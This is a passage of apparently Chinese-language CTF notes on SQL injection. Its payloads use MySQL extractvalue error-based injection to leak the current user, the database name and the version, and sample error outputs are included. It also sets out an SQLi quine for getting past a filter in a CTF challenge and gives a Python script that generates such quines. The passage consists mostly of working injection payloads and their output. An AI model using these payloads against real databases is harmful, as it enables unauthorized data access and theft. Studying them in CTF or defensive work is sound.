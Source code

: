 |   c    |
| ------ |
|   c    |
| 123456 |
|  abc   |
### 其他 sql 使用方法
#### extractvalue

```
用户名
1' and (extractvalue(1,concat(0x7e,user(),0x7e)));#
error 1105 : XPATH syntax error: '~root@localhost~'

数据库

1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#
error 1105 : XPATH syntax error: '~supersqli~'

版本
1' and (extractvalue(1,concat(0x7e,version(),0x7e)));#
```
### SQLi-Quine -- 通过replace bypass 第五空间 yet_another_mysql_injection

https://wp.n03tack.top/posts/56002/
https://www.shysecurity.com/post/20140705-SQLi-Quine
```
'union/**/select/**/REPLACE(REPLACE('"union/**/select/**/REPLACE(REPLACE("^",CHAR(34),CHAR(39)),CHAR(94),"^")AS/**/atao#',CHAR(34),CHAR(39)),CHAR(94),'"union/**/select/**/REPLACE(REPLACE("^",CHAR(34),CHAR(39)),CHAR(94),"^")AS/**/atao#')AS/**/atao#
```

```
"union/**/select/**/REPLACE(REPLACE("^",CHAR(34),CHAR(39)),CHAR(94),"^")AS/**/atao#

第一次REPLACE
'union/**/select/**/REPLACE(REPLACE('^',CHAR(34),CHAR(39)),CHAR(94),'^')AS/**/atao#

第二次REPLACE
'union/**/select/**/REPLACE(REPLACE('"union/**/select/**/REPLACE(REPLACE("^",CHAR(34),CHAR(39)),CHAR(94),"^")AS/**/atao#',CHAR(34),CHAR(39)),CHAR(94),'"union/**/select/**/REPLACE(REPLACE("^",CHAR(34),CHAR(39)),CHAR(94),"^")AS/**/atao#')AS/**/atao#
```


脚本 
```python
def quine(data, debug=True):
    data = data.replace('%%',"REPLACE(REPLACE(%%,CHAR(34),CHAR(39)),CHAR(37),%%)")
    blob = data.replace('%%','"%"').replace("'",'"')
    data = data.replace('%%',"'"+blob+"'")
    data = data.replace(' ','/**/')
    if debug: print(data)
 
quine("'UNION SELECT %% AS a#")
 
'''
'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#
'''
```

